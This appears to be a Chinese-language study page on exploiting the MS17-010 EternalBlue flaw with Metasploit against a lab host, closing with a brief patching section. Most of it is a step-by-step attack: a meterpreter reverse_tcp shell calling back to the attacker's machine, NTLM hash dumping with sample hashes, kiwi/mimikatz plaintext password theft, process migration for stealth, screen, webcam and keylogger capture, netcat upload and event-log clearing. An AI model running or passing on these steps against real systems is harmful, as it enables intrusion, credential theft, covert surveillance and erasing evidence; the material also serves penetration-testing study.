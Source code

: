 ```yaml
---
layout: default
title: ms17-010永恒之蓝
---
```


# 永恒之蓝咋回事？

> * eternal blue
> 
> * RCE remote command execute 远程命令执行漏洞
> 
> * 美国国家安全局内部使用多年后才被批露
> 
> * 被shadow brokers（影子经纪人）批露，可能是美国国安局的内鬼，也可能是他国情报部门黑客团队
> 
> * 批露了大量核弹级系统漏洞、网络设备漏洞
> 
> * 批露后，下游产生了系列相关黑产，比如各种勒索病毒

# msf的ms17-010相关模块

1.search ms17-010

| #   | name                                                                    | disclosure date | rank（等级） | check | description                                                                                             |
| --- | ----------------------------------------------------------------------- | --------------- | -------- | ----- | ------------------------------------------------------------------------------------------------------- |
| 0   | exploit/windows/smb/ms17_010_eternalblue                                | 2017-03-14      | average  | Yes   | ternalBlue SMB Remote Windows Kernel Pool Corruption（损坏）                                                |
| 1   | exploit/windows/smb/ms17_010_psexec（psexec是SMB协议的远程命令执行工具，端口TCP445、139） | 2017-03-14      | normal   | Yes   | MS17-010 EternalRomance/EternalSynergy/EternalChampion（永恒浪漫、永恒协同、永恒夺冠）SMB Remote Windows Code Execution |
| 2   | auxiliary/admin/smb/ms17_010_command                                    | 2017-03-14      | normal   | No    | MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution             |
| 3   | auxiliary/scanner/smb/smb_ms17_010                                      | .               | normal   | No    | MS17-010 SMB RCE Detection                                                                              |
| 4   | exploit/windows/smb/smb_doublepulsar_rce（双脉冲）                           | 2017-04-14      | great    | Yes   | SMB DOUBLEPULSAR Remote Code Execution                                                                  |

2.

> * 我们暂时使用3来探测，0来利用

# 使用探测模块来验证永恒之蓝

```bash
use 3
set rhosts 172.20.0.7
show options 
run
```

# 使用攻击模块利用永恒之蓝

```bash
use 0
# 默认载荷使用windows/x64/meterpreter/reverse_tcp
# meterpreter met + erpreter ，metasploit 的 interpreter，msf的解释器
# 就是载荷，就是随着漏洞发过去的内存马
# 是payload，从我这传到目标上
# 是后门，在目标上执行，把shell弹给我
# meterpreter的reverse_tcp在内存中运行
set rhosts 172.20.0.7
show options
# meterpreter/reverse_tcp，目标的shell弹回来，目标客户端主动连我们服务端
run
# Started reverse TCP handler on 172.20.0.4:4444 
```

# 通过meterpreter获取SAM ntlm 密码

```bash
hashdump # 获取密码
# 从SAM文件中获取用户/密码
# 获取NTLM Hash值（现在常用）
# C:\Windows\System32\config\SAM
# 能拿到说明meterpreter是system权限
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:531b3ca954d0e442e64a5815b6794c32:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# 用户名：SID:别的hash:NTLM hash:::
getuid
# Server username: NT AUTHORITY\SYSTEM
# NTLM 是new technology lan manager，是Windows登录认证协议
# 拿到后1）撞库查询2）社工暴破3）枚举暴破
# https://www.cmd5.com
```

# meterpreter加载kiwi模块，获取明文密码

```bash
load kiwi
# kiwi是minikatz的msf封装版
# 是个后渗透模块
# 作者叫kiwi
# 只要用户输入的密码还保留在内存中，就能获取明文密码
creds_all
# credential 凭证
```

# meterpreter内存马进行进程迁移

```bash
getuid
# 查看当前用户权限
ps aux
# 显示当前所有进程
# 迁移的进程要1）够隐蔽，最好是系统进程2）够稳定，是稳定的系统进程3）权限够，通常喜欢administrator权限的
ps -S "explorer.exe" 
# search
migrate 2700
# 迁移
getuid
```

# meterpreter屏幕、摄像头、键盘

```bash
screenshot # 截图
screenshare # 监控屏幕
# ctrl + c 停止
webcam_stream # 监控摄像头
run post/windows/capture/keylog_recorder # 键盘记录
```

# meterprreter打开cmd

```bash
shell
# 如果乱码，因为Windows是GBK，Kali是utf-8
# 要么临时改Kali为GBK
locale # 查看终端编码
export LANG=zh_CN.GBK
export LC_ALL=zh_CN.GBK
# 妖魔临时改Windows为utf-8
chcp 65001
ctrl + C
rem 退出cmd
rem ctrl + z background channel 2 ，挂起shell
rem channel -i 2
rem interact 返回shell
rem ctrl + c terminate channel 2，中结shell 
```

# meterpreter上传文件

```bash
upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32\\
# \\是\的转义字符，目标路径为c:\windows\system32\nc.exe
```

# meterpreter清除Windows日志

## 理论

> * 渗透测试不要清除日志
> * 攻防要看情况决定是否清除日志
> * 只有真实攻击才会清除日志
> * 控制面板》管理工具》事件查看器》Windows日志

## 在meterpreter下清除Windows日志

```bash
clearev # event事件，也就是日志
# exit 退出cmd
# exit 退出bash、zsh
# quit 退出msf
# back 返回msf上级菜单
# ctrl + C 从cmdshell返回meterpreter
```

# 修复ms17-010

## 查看系统版本

```batch
systeminfo
```

## 根据系统版本查询补丁编号

> * server2008R2SP1竟然是KB4012215这个补丁
> 
> * 下载》安装

## 验证安装结果

```batch
systeminfo
```
